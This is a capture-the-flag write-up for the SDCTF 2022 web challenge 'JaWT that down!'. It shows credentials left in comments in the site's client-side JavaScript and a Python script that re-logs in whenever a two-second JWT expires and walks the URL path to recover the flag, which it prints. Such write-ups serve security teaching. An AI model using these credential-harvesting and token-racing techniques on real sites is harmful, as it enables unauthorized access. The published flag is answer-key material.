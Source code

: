 # JaWT that down!

```
score: 200
solved: xx/xx
difficulty: easy
tags: web
```

## Problem
```
The new ultra maximum security plugin I installed on my website is so good that even I can’t log in. Hackers don’t stand a chance.
Website https://jawt.sdc.tf/
```

https://github.com/acmucsd/sdctf-2022/tree/main/web/easy%20-%20jawt%20that%20down!

## Got the flag

Go to https://jawt.sdc.tf/login, read https://jawt.sdc.tf/js/login.js, we get login credentials (u: `AzureDiamond`, p: `hunter2`)
```js
render() {
        return r.createElement("form", {
            action: "/login",
            method: "POST",
            className: "login-form"
        }, r.createElement("span", {
            className: "heading"
        }, "Admin Sign In"), r.createElement("label", {
            htmlFor: "username",
            dangerouslySetInnerHTML: {
                __html: "\x3c!-- REMOVE ME IN PUBLISHED SITE! Username: AzureDiamond --\x3eUsername"
            }
        }), r.createElement("input", {
            type: "text",
            id: "username",
            name: "username"
        }), r.createElement("label", {
            htmlFor: "password",
            dangerouslySetInnerHTML: {
                __html: "\x3c!-- REMOVE ME IN PUBLISHED SITE! Password: hunter2 --\x3ePassword"
            }
        }), r.createElement("input", {
            type: "password",
            id: "password",
            name: "password"
        }), r.createElement("button", {
            type: "submit"
        }, "Sign In"))
    }
```

After logging in manually, there's a Flag url on the top nav (next to About): `https://jawt.sdc.tf/s`. This url must be accessed before `exp` in `jwt` cookie which is set to 2 seconds.

Response from `https://jawt.sdc.tf/s` is `d`. Tried going to `https://jawt.sdc.tf/s/d` (tried `https://jawt.sdc.tf/sd` first but 403), got `c`. So there need a script to get full flag:
```python
import requests
def login():
    s = requests.session()
    s.post("https://jawt.sdc.tf/login", data={"username": "AzureDiamond", "password": "hunter2"})
    return s


s = requests.session()
start = time.time()
url = "https://jawt.sdc.tf/s"
while True:
    r = s.get(url)
    if r.status_code != 200:
        s = login()
        continue
    url += f"/{r.text}"
    # print every url to get the satisfaction on the way
    print(url)
    if "}" in r.text:
        break
```

Final url: `https://jawt.sdc.tf/s/d/c/t/f/{/T/h/3/_/m/0/r/3/_/t/0/k/3/n/s/_/t/h/e/_/l/e/5/5/_/p/r/0/b/l/3/m/s/_/a/d/f/3/d/}`

So the flag is: `sdctf{Th3_m0r3_t0k3ns_the_le55_pr0bl3ms_adf3d}`
